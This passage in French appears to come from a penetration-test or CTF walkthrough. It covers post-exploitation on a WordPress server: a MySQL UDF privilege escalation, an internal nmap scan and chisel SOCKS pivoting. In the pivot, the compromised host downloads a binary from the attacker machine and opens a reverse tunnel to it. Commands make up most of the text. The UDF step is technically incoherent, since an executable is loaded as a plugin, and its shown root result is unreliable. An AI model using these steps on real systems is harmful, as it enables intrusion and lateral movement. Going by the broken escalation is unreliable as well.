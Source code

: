 Nous découvrons que MySQL utilise auth_socket pour l'authentification root, ce qui permet une élévation via une UDF (User Defined Function) :

```bash
cd /tmp
echo -e '#include <stdio.h>\n#include <stdlib.h>\n#include <unistd.h>\nint main(void){setuid(0);setgid(0);system("/bin/bash");return 0;}' > privesc.c
gcc -o privesc privesc.c
chmod u+s privesc

mysql -u wordpress_user -p'StrongPassword123!'
mysql> use mysql;
mysql> create table pwn(line blob);
mysql> insert into pwn values(load_file('/tmp/privesc'));
mysql> select * from pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/privesc';
mysql> create function sys_exec returns integer soname 'privesc';
mysql> select sys_exec();
mysql> exit

/tmp/privesc
# Vérification : id
# Résultat : uid=0(root) gid=0(root) groups=0(root)
```

Nous avons maintenant un accès root sur le serveur.

### Étape 3 : Reconnaissance du réseau interne (10 minutes)

Avec les privilèges root, nous pouvons explorer le réseau interne :

```bash
# Installation de nmap si nécessaire
apt-get update && apt-get install -y nmap

# Scan rapide du réseau interne
nmap -sT -T4 --min-rate 1000 -p 22,80,445,3389 10.0.0.0/24
# Résultat : 
# 10.0.0.50 - ports 445 et 3389 ouverts (probablement un serveur Windows)
# 10.0.0.100 - port 445 ouvert (probablement un contrôleur de domaine)
```

Nous identifions deux cibles potentielles : un serveur Windows (10.0.0.50) et un probable contrôleur de domaine (10.0.0.100).

### Étape 4 : Préparation du pivoting (10 minutes)

Nous téléchargeons et configurons chisel pour établir un tunnel SOCKS :

```bash
# Sur notre machine d'attaque (192.168.0.5)
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gunzip chisel_1.7.7_linux_amd64.gz
chmod +x chisel_1.7.7_linux_amd64
./chisel_1.7.7_linux_amd64 server -p 8080 --reverse

# Sur le serveur compromis
cd /tmp
wget http://192.168.0.5/chisel_1.7.7_linux_amd64
chmod +x chisel_1.7.7_linux_amd64
./chisel_1.7.7_linux_amd64 client 192.168.0.5:8080 R:socks
```
